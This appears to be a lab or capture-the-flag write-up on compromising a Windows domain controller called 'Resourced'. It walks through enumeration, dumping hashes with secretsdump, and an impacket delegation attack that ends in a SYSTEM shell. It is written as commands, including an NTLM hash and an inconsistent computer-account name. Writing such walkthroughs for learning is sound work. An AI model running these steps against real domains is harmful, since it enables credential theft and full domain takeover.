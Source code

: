 # Resourced - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed the following open ports:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 17:16:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp+ open  msrpc         Microsoft Windows RPC
```

### Domain Information
From the scan results, I identified:
- Domain name: resourced.local
- NetBIOS Computer Name: RESOURCEDC
- DNS Computer Name: ResourceDC.resourced.local
- DNS Domain Name: resourced.local
- Product Version: 10.0.17763

## Gaining Initial Access

### LDAP Enumeration
I enumerated LDAP to discover more about the domain structure:
```bash
venv/bin/python3 windapsearch.py --dc-ip 192.168.145.175 --da --admin-objects --user-spns --gpos --full -PU -U
```

This query revealed credentials for user `V.Ventz`, providing initial access to the domain resources.

### SMB Enumeration
With these credentials, I was able to list and access SMB shares:
```bash
smbclient -L //192.168.145.175 -U V.Ventz
```

I discovered a "Password Audit" share containing critical files:
- ntds.dit (Active Directory database)
- SECURITY (Registry hive)
- SYSTEM (Registry hive)

## Lateral Movement

### Extracting Domain Hashes
I downloaded these files from the SMB share and used secretsdump.py to extract password hashes:
```bash
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -security SECURITY -outputfile credentials.txt
```

After testing the extracted hashes, I identified two valid credentials:
- **Username**: V.Ventz
- **Hash**: [Hash value redacted]

- **Username**: L.Livingstone
- **Hash**: 19a3a7550ce8c505c2d46b5e39d6f808

### Privilege Enumeration
I used BloodHound to analyze the domain relationships and identify potential attack paths:
```bash
bloodhound-python -c All -u V.Ventz -p [password] -d resourced.local -dc ResourceDC.resourced.local
```

Analysis of the data revealed that user `L.Livingstone` had `GenericAll` permissions, which could be leveraged for privilege escalation.

## Privilege Escalation

### Resource-Based Constrained Delegation Attack
I exploited the `GenericAll` permissions held by L.Livingstone to perform a Resource-Based Constrained Delegation (RBCD) attack:

1. First, I added a new computer account to the domain:
```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.145.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

2. Modified the delegation settings to allow impersonation:
```bash
rbcd.py -delegate-from 'ATTACK$' -delegate-to 'RESOURCEDC$' -action 'write' 'resourced.local/l.livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```

3. Verified the computer account was properly created:
```bash
get-adcomputer attackersystem
```

4. Requested a service ticket to impersonate the Administrator:
```bash
getST.py -spn 'cifs/resourcedc.resourced.local' -impersonate 'Administrator' 'resourced.local/attackersystem$:AttackerPC1!'
```

5. Used the ticket to establish an administrative connection:
```bash
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.145.175
```

This provided a SYSTEM shell on the domain controller, successfully completing the challenge and giving full access to the target system.